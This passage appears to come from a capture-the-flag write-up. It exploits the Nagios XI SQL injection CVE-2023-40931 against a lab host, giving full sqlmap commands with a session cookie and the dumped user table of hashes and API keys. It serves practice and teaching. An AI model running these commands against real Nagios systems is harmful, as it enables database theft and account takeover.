 `https://medium.com/@n1ghtcr4wl3r/nagios-xi-vulnerability-cve-2023-40931-sql-injection-in-banner-ace8258c5567`
The description:
```
Nagios XI, a widely-used network monitoring software, has recently been identified with multiple security vulnerabilities, one of which is classified as CVE-2023–40931. This critical vulnerability, affecting Nagios XI versions 5.11.0 to 5.11.1, exposes the system to SQL injection attacks through the Banner acknowledging endpoint.
```
I can use `sqlmap` to leak all the database from this poc post.
```
sqlmap -u "<https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php>" --data="id=3&action=acknowledge_banner_message" --cookie "nagiosxi=cookie_of_an_authenticated_user" --dbms=MySQL --level=1 --risk=1 -D nagiosxi -T xi_users --dump

sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="id=3&action=acknowledge_banner_message" --cookie "nagiosxi=3d3aooqlovadiucnfpvlju9qob" --dbms=MySQL --level=1 --risk=1 -D nagiosxi -T xi_users --dump
```
Then we successfully get the result 
```
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
| user_id | email               | name                 | api_key                                                          | enabled | password                                                     | username    | created_by | last_login | api_enabled | last_edited | created_time | last_attempt | backend_ticket                                                   | last_edited_by | login_attempts | last_password_change |
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
| 1       | admin@monitored.htb | Nagios Administrator | IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL | 1       | $2a$10$825c1eec29c150b118fe7unSfxq80cf7tHwC0J0BG2qZiNzWRUx2C | nagiosadmin | 0          | 1701931372 | 1           | 1701427555  | 0            | 0            | IoAaeXNLvtDkH5PaGqV2XZ3vMZJLMDR0                                 | 5              | 0              | 1701427555           |
| 2       | svc@monitored.htb   | svc                  | 2huuT2u2QIPqFuJHnkPEEuibGJaJIcHCFDpDb29qSFVlbdO4HJkjfg2VpDNE3PEK | 0       | $2a$10$12edac88347093fcfd392Oun0w66aoRVCrKMPBydaUfgsgAOUHSbK | svc         | 1          | 1699724476 | 1           | 1699728200  | 1699634403   | 1739002507   | 6oWBPbarHY4vejimmu3K8tpZBNrdHpDgdUEs5P2PFZYpXSuIdrRMYgk66A0cjNjq | 1              | 8              | 1699697433           |
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+

```
By using `hashcat` or `john`, the password of admin would not be cracked here.But we have the api_key of admin.
